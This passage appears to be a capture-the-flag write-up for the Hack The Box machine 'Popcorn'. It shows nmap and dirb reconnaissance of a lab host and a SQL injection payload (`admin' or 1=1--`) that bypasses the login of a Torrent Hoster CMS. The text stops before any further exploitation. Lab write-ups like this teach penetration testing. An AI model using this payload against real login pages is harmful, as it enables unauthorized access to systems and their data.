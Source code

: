 First enumeration with nmap 

```
# Nmap 7.93 scan initiated Wed May 17 12:13:10 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80 -Pn 10.10.10.6
Nmap scan report for 10.10.10.6
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 17 12:13:24 2023 -- 1 IP address (1 host up) scanned in 14.03 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/34f2bb05-236d-4107-95e9-4f812e523e1c)

noticed a web server running on port 80, openning it on a browser, got directed to a default web page. let's fuzz for hidden dirs.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Popcorn] 
└─$ dirb http://10.10.10.6/                                                                                                                                            
                                                                                                                                                                       
-----------------                                                                                                                                                      
DIRB v2.22                                                                                                                                                             
By The Dark Raver                                                                                                                                                      
-----------------                                                                                                                                                      
                                                                                                                                                                       
START_TIME: Wed May 17 11:43:45 2023                                                                                                                                   
URL_BASE: http://10.10.10.6/                                                                                                                                           
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt                                                                                                                   
                                                                                                                                                                       
-----------------                                                                                                                                                      
                                                                                                                                                                       
GENERATED WORDS: 4612                                                                                                                                                  
                                                                                                                                                                       
---- Scanning URL: http://10.10.10.6/ ----                                                                                                                             
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)                                                                                                                       
+ http://10.10.10.6/index (CODE:200|SIZE:177)                                                                                                                          
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)                                                                                                                     
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)                                                                                                                  
+ http://10.10.10.6/test (CODE:200|SIZE:47330)                                                                                                                         
==> DIRECTORY: http://10.10.10.6/torrent/ 

---- Entering directory: http://10.10.10.6/torrent/ ----                                                                                                               
==> DIRECTORY: http://10.10.10.6/torrent/admin/                                                                                                                        
+ http://10.10.10.6/torrent/browse (CODE:200|SIZE:9278)                                                                                                                
+ http://10.10.10.6/torrent/comment (CODE:200|SIZE:936)                                                                                                                
+ http://10.10.10.6/torrent/config (CODE:200|SIZE:0)
```
cool we have a juicy dir `torrent`, let's check it out.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/818c8009-fae9-4ced-8fe2-f57b84f03ab2)

navigating to the torrent dir, got directed to a torrent hoster cms. let's try to login.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2a79dbbc-fc62-46d0-ac5b-75dac33f7cd4)

tried to bypass the login page using sqli payload `admin' or 1=1-- :admin' or 1=1-- `...

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/80fd833d-d2ac-4f51-a0bb-1f2fbc90094c)

Bull's eye it worked, we are in as admin. let's check for how to exploit this service `Torrent Hoster`.





